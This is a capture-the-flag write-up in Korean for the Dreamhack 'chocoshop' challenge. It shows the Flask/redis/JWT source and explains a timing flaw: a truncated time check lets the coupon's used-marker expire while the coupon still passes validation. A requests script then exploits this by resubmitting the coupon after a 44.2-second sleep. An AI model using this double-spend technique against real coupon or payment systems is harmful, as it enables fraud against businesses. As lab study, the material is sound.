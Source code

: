 ## chocoshop
---

```python
from flask import Flask, request, jsonify, current_app, send_from_directory
import jwt
import redis
from datetime import timedelta
from time import time
from werkzeug.exceptions import default_exceptions, BadRequest, Unauthorized
from functools import wraps
from json import dumps, loads
from uuid import uuid4

r = redis.Redis()
app = Flask(__name__)

# SECRET CONSTANTS
# JWT_SECRET = 'JWT_KEY'
# FLAG = 'DH{FLAG_EXAMPLE}'
from secret import JWT_SECRET, FLAG

# PUBLIC CONSTANTS
COUPON_EXPIRATION_DELTA = 45
RATE_LIMIT_DELTA = 10
FLAG_PRICE = 2000
PEPERO_PRICE = 1500


def handle_errors(error):
    return jsonify({'status': 'error', 'message': str(error)}), error.code


for de in default_exceptions:
    app.register_error_handler(code_or_exception=de, f=handle_errors)


def get_session():
    def decorator(function):
        @wraps(function)
        def wrapper(*args, **kwargs):
            uuid = request.headers.get('Authorization', None)
            if uuid is None:
                raise BadRequest("Missing Authorization")

            data = r.get(f'SESSION:{uuid}')
            if data is None:
                raise Unauthorized("Unauthorized")

            kwargs['user'] = loads(data)
            return function(*args, **kwargs)
        return wrapper
    return decorator


@app.route('/flag/claim')
@get_session()
def flag_claim(user):
    if user['money'] < FLAG_PRICE:
        raise BadRequest('Not enough money')

    user['money'] -= FLAG_PRICE
    return jsonify({'status': 'success', 'message': FLAG})


@app.route('/pepero/claim')
@get_session()
def pepero_claim(user):
    if user['money'] < PEPERO_PRICE:
        raise BadRequest('Not enough money')

    user['money'] -= PEPERO_PRICE
    return jsonify({'status': 'success', 'message': 'lotteria~~~~!~!~!'})


@app.route('/coupon/submit')
@get_session()
def coupon_submit(user):
    coupon = request.headers.get('coupon', None)
    if coupon is None:
        raise BadRequest('Missing Coupon')

    try:
        coupon = jwt.decode(coupon, JWT_SECRET, algorithms='HS256')
    except:
        raise BadRequest('Invalid coupon')

    if coupon['expiration'] < int(time()):
        raise BadRequest('Coupon expired!')

    rate_limit_key = f'RATELIMIT:{user["uuid"]}'
    if r.setnx(rate_limit_key, 1):
        r.expire(rate_limit_key, timedelta(seconds=RATE_LIMIT_DELTA))
    else:
        raise BadRequest(f"Rate limit reached!, You can submit the coupon once every {RATE_LIMIT_DELTA} seconds.")


    used_coupon = f'COUPON:{coupon["uuid"]}'
    if r.setnx(used_coupon, 1):
        # success, we don't need to keep it after expiration time
        if user['uuid'] != coupon['user']:
            raise Unauthorized('You cannot submit others\' coupon!')

        r.expire(used_coupon, timedelta(seconds=coupon['expiration'] - int(time())))
        user['money'] += coupon['amount']
        r.setex(f'SESSION:{user["uuid"]}', timedelta(minutes=10), dumps(user))
        return jsonify({'status': 'success'})
    else:
        # double claim, fail
        raise BadRequest('Your coupon is alredy submitted!')


@app.route('/coupon/claim')
@get_session()
def coupon_claim(user):
    if user['coupon_claimed']:
        raise BadRequest('You already claimed the coupon!')

    coupon_uuid = uuid4().hex
    data = {'uuid': coupon_uuid, 'user': user['uuid'], 'amount': 1000, 'expiration': int(time()) + COUPON_EXPIRATION_DELTA}
    uuid = user['uuid']
    user['coupon_claimed'] = True
    coupon = jwt.encode(data, JWT_SECRET, algorithm='HS256').decode('utf-8')
    r.setex(f'SESSION:{uuid}', timedelta(minutes=10), dumps(user))
    return jsonify({'coupon': coupon})


@app.route('/session')
def make_session():
    uuid = uuid4().hex
    r.setex(f'SESSION:{uuid}', timedelta(minutes=10), dumps(
        {'uuid': uuid, 'coupon_claimed': False, 'money': 0}))
    return jsonify({'session': uuid})


@app.route('/me')
@get_session()
def me(user):
    return jsonify(user)


@app.route('/')
def index():
    return current_app.send_static_file('index.html')

@app.route('/images/<path:path>')
def images(path):
    return send_from_directory('images', path)

```

<br><br>

## Solution
---

timing을 맞춰야 하는데 코드를 보면 쿠폰을 생성하면 만료 시간이 설정되고, 쿠폰을 제출하면 두 개의 키가 redis에 등록되는데 두 번째 키가 중요하다.

두 번째 키의 만료 시간을 보면 쿠폰의 만료 시간에서 현재 시간을 뺀다.

즉, 두 번째 키는 쿠폰이 만료되는 시점에 없어진다고 보면 되는데.. 

```coupon['expiration'] < int(time()): raise BadRequest('Coupon expired!')``` 이 부분을 생각해보자.

<br>

쿠폰을 만든 시점이 정확히 100초라 할 때, 쿠폰 만료 시점은 정확히 145초이고 키 또한 정확히 145초에 만료된다.

지금이 정확히 145초라고 치면 일단 키는 만료되었는데, ```int(time())```부분에서 만약 ```time()``` 값이 ```145.1 ~ 145.9```초 사이에 있다고 하자.

이 시점에선 어차피 int를 통해 145초가 되므로 ```145<145```가 조건문을 통과할 수 있으며, 이미 145초를 지난, ```145.1 ~ 145.9```초 사이에 있으므로 두 번째 키 또한 만료되었다.

따라서 돈을 천원 더 넣을 수 있게 되어 2000원이 되므로 플래그를 사면 플래그를 alert 해준다.

<br>

```python
import requests
import time
import json

url = 'http://host3.dreamhack.games:{port}/coupon/claim'
headers = {
    "Authorization": "{uuid}",
    "Content-Type": "application/json, application/x-www-form-urlencoded"
}

res = requests.get(url, headers=headers)
# coupon_expire_time = int(time.time()) + 44.2

'''
코드 상으로는 res가 받은 시점에서는 이미 쿠폰은 생성된지 조금이라도 시간이 지나있다.

이 부분을 유의해서 쿠폰 만료 시간을 계산한 것.
'''

coupon = json.loads(res.text)
headers["coupon"] = coupon["coupon"]

url = 'http://host3.dreamhack.games:21345/coupon/submit'
res = requests.get(url, headers=headers)

'''
while (1):
    print("wait...")
    if (int(time()) == coupon_expire_time):  ---> 이 걸로 하면 키가 만료 되기 전에 보내지므로 안됨.
        res = requests.get(url, headers=headers)
        print(res.text)
        break
'''

time.sleep(44.2) 
# 쿠폰이 만료될 시점을 고려해서 키는 없어졌지만 아직 쿠폰 만료 시간과 int(time) 값이 동일할 때 보내야 함
# 안되면 조금씩 내림조정해서 설정
res = requests.get(url, headers=headers)
print(res.text)
```
